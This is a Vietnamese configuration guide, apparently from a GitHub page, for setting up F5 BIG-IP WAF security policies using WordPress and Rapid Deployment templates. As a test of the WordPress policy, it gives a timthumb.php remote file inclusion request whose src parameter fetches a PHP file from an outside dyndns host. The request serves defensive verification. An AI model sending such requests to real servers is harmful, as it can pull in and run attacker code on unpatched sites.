 # Tạo security policy

> Lưu ý: Trước khi tiến hành các bước dưới đây (với bất kỳ loại policy nào), cần đảm bảo rằng ứng dụng đang hoạt động với F5 BIG-IP đóng vai trò như thiết bị cân bằng tải, reverse proxy. Nghĩa là các cấu hình liên quan như DNS, node, pool, monitor, ssl, virtual server đều đang hoạt động đúng và người sử dụng có thể truy cập bình thường.

## 1. Khởi tạo chính sách bảo mật chế độ triển khai theo loại ứng dụng (ví dụ Wordpress)
Trường hợp này, người quản trị bảo mật đã có hiểu biết rằng ứng dụng mà mình đang thiếp lập chính sách bảo mật được phát triển dựa trên wordpress
(https://vi.wordpress.org/). Không tiến hành các bước bên dưới nếu không phải.

Trên giao diện quản trị web của F5 BIG-IP, vào menu `Security` > `Application Security` > `Security Policies` > `Policies List`, bấm vào nút `Create`.

Trong màn hình tiếp theo:
- Policy Name : đặt tên cho policy, ví dụ `wordpress_waf_policy`
- Policy Template: chọn mục `Application-ready templates` > `Wordpress v4.9`
- Virtual Server: chọn virtual server sẽ apply (đang chạy Wordpress trên đó)
- Logging Profiles: chọn logging profile đã tạo ở bước trên, ví dụ `security_log_profile`

Bấm vào nút `Save` để lưu lại. Như vậy, ứng dụng đã được bảo vệ.

> Để kiểm tra xem chính sách bảo mật này có đang hoạt động hay không, có thể thử một dạng tấn công vào lỗ hổng bảo mật của Wordpress, ví dụ CVE-2014-4663 (https://blog.sucuri.net/2011/08/attacks-against-timthumb-php-in-the-wild-list-of-themes-and-plugins-being-scanned.html).
Để thực hiện khai thác lỗ hổng, gửi một GET request tới đường dẫn `/wp-content/plugins/wordpress-gallery-plugin/timthumb.php?src=http://picasa.com12345.dyndns.org/1.php`. Nếu cấu hình thành công, hệ thống F5 BIG-IP sẽ chặn khai thác này, đưa ra một thông báo lỗi và kèm theo đó là một số `Support ID`, ghi nhận lại mã số này để tra cứu log. Truy cập vào giao diện quản trị F5 BIG-IP, vào mục `Security` > `Event Logs` > `Application` > `Requests`, nhập mã Support ID vào bộ lọc tìm kiếm, ta sẽ thấy một bản ghi log liên quan đến việc F5 BIG-IP chặn lại hành vi khai thác lỗ hổng bảo mật này.

## 2. Khởi tạo chính sách bảo mật chế độ triển khai nhanh - Rapid deployment policy
Trường hợp này, người quản trị hệ thống muốn cấu hình nhanh một chính sách bảo mật mà qua đó có thể áp dụng ngay, không mất quá nhiều thời gian cho hệ thống tự học (learn) cũng như giảm thiểu tình trạng false positive alarms.
Nói chung, kiểu triển khai này có thể giải quyết được đa số các yêu cầu về bảo mật cho một ứng dụng web.


Trên giao diện quản trị web của F5 BIG-IP, vào menu `Security` > `Application Security` > `Security Policies` > `Policies List`, bấm vào nút `Create`.

Trong màn hình tiếp theo:
- Policy Name : đặt tên cho policy, ví dụ `rapid_waf_policy`
- Policy Template: chọn mục `Rapid Deployment Policy`
- Virtual Server: chọn virtual server sẽ apply (đang chạy ứng dụng trên đó)
- Logging Profiles: chọn logging profile đã tạo ở bước trên, ví dụ `security_log_profile`
- Enforcement Mode: được đặt là `Transparent` - nghĩa là hệ thống vẫn kiểm tra nhưng không chặn ngay cả khi có vi phạm. Điều này giúp người quản trị bảo mật có thời gian xem xét các thiết lập bảo mật trước khi chuyển sang chế độ `Block`. Nếu muốn, người quản trị có thể bật chế độ `Blocking` ngay tại bước này.
- Signature Staging: mặc định được bật (`Enable`), nghĩa là hệ thống sẽ chưa chặn ngay các vi phạm dựa trên signature nhằm tránh tình trạng false positive. Nếu muốn, người quản trị có thể `Disable` chế độ này luôn.
- Server Technologies: có thể nhập (chọn trong danh sách) các công nghệ mà ứng dụng đang sử dụng, ví dụ phổ biến như Apache làm web server, engine PHP, cơ sở dữ liệu MySQL.. Các thiết lập này giúp F5 BIG-IP xây dựng bộ các signature cho phù hợp.
